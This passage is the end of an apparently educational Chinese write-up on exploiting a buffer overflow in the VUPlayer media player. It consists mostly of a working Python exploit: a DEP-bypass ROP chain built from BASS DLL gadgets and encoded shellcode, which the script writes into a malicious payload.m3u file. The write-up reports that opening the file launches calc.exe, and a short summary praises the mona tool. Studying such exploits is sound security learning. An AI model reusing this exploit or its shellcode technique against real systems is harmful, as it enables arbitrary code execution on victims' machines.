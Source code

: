 ```python
      0x101012e0,  # POP ECX # RETN [BASSWMA.dll] 
      0x1003f0cc,  # &Writable location [BASS.dll]
      #[---INFO:gadgets_to_set_edi:---]
      0x10603658,  # POP EDI # RETN [BASSMIDI.dll] 
      0x1001dc05,  # RETN (ROP NOP) [BASS.dll]
      #[---INFO:gadgets_to_set_eax:---]
      0x10015fe7,  # POP EAX # RETN [BASS.dll] 
      0x90909090,  # nop
      #[---INFO:pushad:---]
      0x1001d7a5,  # PUSHAD # RETN [BASS.dll] 
    ]
    return b''.join(struct.pack('<I', _) for _ in rop_gadgets)
    
rop_chain = create_rop_chain()
shellcode = (b"\xe8\xff\xff\xff\xff\xc0\x5f\xb9\x11\x03\x02\x02\x81\xf1\x02\x02"+
        b"\x02\x02\x83\xc7\x1d\x33\xf6\xfc\x8a\x07\x3c\x02\x0f\x44\xc6\xaa"+
        b"\xe2\xf6\x55\x8b\xec\x83\xec\x0c\x56\x57\xb9\x7f\xc0\xb4\x7b\xe8"+
        b"\x55\x02\x02\x02\xb9\xe0\x53\x31\x4b\x8b\xf8\xe8\x49\x02\x02\x02"+
        b"\x8b\xf0\xc7\x45\xf4\x63\x61\x6c\x63\x6a\x05\x8d\x45\xf4\xc7\x45"+
        b"\xf8\x2e\x65\x78\x65\x50\xc6\x45\xfc\x02\xff\xd7\x6a\x02\xff\xd6"+
        b"\x5f\x33\xc0\x5e\x8b\xe5\x5d\xc3\x33\xd2\xeb\x10\xc1\xca\x0d\x3c"+
        b"\x61\x0f\xbe\xc0\x7c\x03\x83\xe8\x20\x03\xd0\x41\x8a\x01\x84\xc0"+
        b"\x75\xea\x8b\xc2\xc3\x8d\x41\xf8\xc3\x55\x8b\xec\x83\xec\x14\x53"+
        b"\x56\x57\x89\x4d\xf4\x64\xa1\x30\x02\x02\x02\x89\x45\xfc\x8b\x45"+
        b"\xfc\x8b\x40\x0c\x8b\x40\x14\x8b\xf8\x89\x45\xec\x8b\xcf\xe8\xd2"+
        b"\xff\xff\xff\x8b\x3f\x8b\x70\x18\x85\xf6\x74\x4f\x8b\x46\x3c\x8b"+
        b"\x5c\x30\x78\x85\xdb\x74\x44\x8b\x4c\x33\x0c\x03\xce\xe8\x96\xff"+
        b"\xff\xff\x8b\x4c\x33\x20\x89\x45\xf8\x03\xce\x33\xc0\x89\x4d\xf0"+
        b"\x89\x45\xfc\x39\x44\x33\x18\x76\x22\x8b\x0c\x81\x03\xce\xe8\x75"+
        b"\xff\xff\xff\x03\x45\xf8\x39\x45\xf4\x74\x1e\x8b\x45\xfc\x8b\x4d"+
        b"\xf0\x40\x89\x45\xfc\x3b\x44\x33\x18\x72\xde\x3b\x7d\xec\x75\x9c"+
        b"\x33\xc0\x5f\x5e\x5b\x8b\xe5\x5d\xc3\x8b\x4d\xfc\x8b\x44\x33\x24"+
        b"\x8d\x04\x48\x0f\xb7\x0c\x30\x8b\x44\x33\x1c\x8d\x04\x88\x8b\x04"+
        b"\x30\x03\xc6\xeb\xdd")

payload = b"a"*1012 + rop_chain + shellcode
file = open('payload.m3u','wb')
file.write(payload)
file.close()
```

### 攻击结果

运行`exp.py`，将生成的`payload.m3u`拖入`VUPlayer`，成功弹出计算器，如图：

![pwn](../pic/Exploitme-ROP/pwn.png)

## 总结

1. `mona`在`Immunity debugger`中比在`Windbg`中更好用，虽然后者更美观。
2. `mona`很智能，生成的`rop_chains.txt`中的`ropchain`可以直接使用。
